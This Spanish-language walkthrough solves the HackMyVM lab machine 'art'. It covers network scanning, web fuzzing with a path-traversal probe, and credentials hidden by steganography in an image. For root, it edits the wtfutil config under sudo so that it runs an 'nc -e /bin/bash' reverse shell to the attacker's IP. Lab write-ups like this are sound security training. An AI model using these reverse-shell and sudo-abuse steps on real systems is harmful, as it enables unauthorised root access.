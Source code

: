 +++
title = 'art - HackMyVM'
+++

[link => art](https://downloads.hackmyvm.eu/art.zip)

---

## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.38.1.0/24
```

![nmap host discovery](/images/arthackmyvm/nmaphd.png)

### La IP de la máquina objetivo es **10.38.1.11**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.38.1.11 -oN targetscan
```

```txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────
       │ File: targetscan
───────┼──────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.94SVN scan initiated Sun Feb 23 15:46:35 2025 as: /usr/lib/nmap/nmap -p- --open -sS 
       │ --min-rate 5000 -vvv -n -Pn -oN targetscan 10.38.1.11
   2   │ Nmap scan report for 10.38.1.11
   3   │ Host is up, received arp-response (0.000081s latency).
   4   │ Scanned at 2025-02-23 15:46:35 EST for 2s
   5   │ Not shown: 65533 closed tcp ports (reset)
   6   │ PORT   STATE SERVICE REASON
   7   │ 22/tcp open  ssh     syn-ack ttl 64
   8   │ 80/tcp open  http    syn-ack ttl 64
   9   │ MAC Address: 08:00:27:7D:24:6A (Oracle VirtualBox virtual NIC)
  10   │ 
  11   │ Read data files from: /usr/share/nmap
  12   │ # Nmap done at Sun Feb 23 15:46:37 2025 -- 1 IP address (1 host up) scanned in 2.54 seconds
───────┴──────────────────────────────────────────────────────────────────────────────────────────────
```

### **Puertos Abiertos: 22,80**

## Ejecución de scripts de nmap

```bash
sudo nmap -sCV -p22,80 10.38.1.11 -oN scriptsexec
```

```txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────
       │ File: scriptsexec
───────┼──────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.94SVN scan initiated Sun Feb 23 15:49:16 2025 as: /usr/lib/nmap/nmap -sCV -p22,80 -o
       │ N scriptsexec 10.38.1.11
   2   │ Nmap scan report for 10.38.1.11
   3   │ Host is up (0.00062s latency).
   4   │ 
   5   │ PORT   STATE SERVICE VERSION
   6   │ 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   3072 45:42:0f:13:cc:8e:49:dd:ec:f5:bb:0f:58:f4:ef:47 (RSA)
   9   │ |   256 12:2f:a3:63:c2:73:99:e3:f8:67:57:ab:29:52:aa:06 (ECDSA)
  10   │ |_  256 f8:79:7a:b1:a8:7e:e9:97:25:c3:40:4a:0c:2f:5e:69 (ED25519)
  11   │ 80/tcp open  http    nginx 1.18.0
  12   │ |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
  13   │ |_http-server-header: nginx/1.18.0
  14   │ MAC Address: 08:00:27:7D:24:6A (Oracle VirtualBox virtual NIC)
  15   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  16   │ 
  17   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
       │ .
  18   │ # Nmap done at Sun Feb 23 15:49:24 2025 -- 1 IP address (1 host up) scanned in 7.52 seconds
───────┴──────────────────────────────────────────────────────────────────────────────────────────────
```

## Enumeración de directorios con gobuster 

```bash
gobuster dir -u http://10.38.1.11/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,html,css,js,zip,php
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.38.1.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,css,js,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 170]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```

## Fuzzing de parámetros con ffuf

```bash
ffuf -u 'http://10.38.1.11/index.php?FUZZ=../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 170
```

```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.38.1.11/index.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 170
________________________________________________

tag                     [Status: 200, Size: 70, Words: 11, Lines: 5, Duration: 20ms]
```

Probando con el archivo **/etc/passwd** no muestra nada.

## Fuzzing de valor de parámetro tag

```bash
ffuf -u 'http://10.38.1.11/index.php?tag=FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 70 -s
```

```bash
0
beauty
Beauty
beautiful
```

## Extracción de datos con steghide

```bash
> curl http://10.38.1.11/index.php?tag=beauty

SEE HMV GALLERY!
<br>
 <img src=dsa32.jpg><br>
<!-- Need to solve tag parameter problem. -->

> wget http://10.38.1.11/dsa32.jpg

> steghide extract -sf dsa32.jpg

Enter passphrase: <Enter> 
wrote extracted data to "yes.txt".
```

```txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────
       │ File: yes.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────
   1   │ lion/shel0vesyou
───────┴───────────────────────────────────────────────────────────────────────────────────────────────
```

## Conexión vía ssh con credenciales encontradas

```bash
> ssh lion@10.38.1.11

lion@art:~$ ls
user.txt
lion@art:~$ cat user.txt 
HMV********************
```

## Permisos sudo del usuario lion

```bash
lion@art:~$ sudo -l
Matching Defaults entries for lion on art:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

## Escalada de privilegios

### Ejecución de revshell 

```bash
lion@art:~/.config/wtf$ find / -writable -type f 2>/dev/null

/home/lion/.config/wtf/config.yml
```

![nmap host discovery](/images/arthackmyvm/wtfdocs.png)

```yaml
uptime:
      args: ["-e","/bin/bash","10.38.1.10","443"]
      cmd: "nc"
      enabled: true
      position:
        top: 3
        left: 1
        height: 1
        width: 2
      refreshInterval: 30
      type: cmdrunner
```

Ejecución de wtfutil como usuario root

```bash
sudo -u root /bin/wtfutil --config=/home/lion/.config/wtf/config.yml
```

Ejecutar en otra shell de **máquina atacante**

```bash
> nc -nlvp 443
```

### Flag de usuario root

```bash
root@art:/# whoami 
whoami
root

root@art:/# find / -type f -name "root.txt"                       

/var/opt/root.txt

root@art:/# cat /var/opt/root.txt              

mZx*****************HMV
```

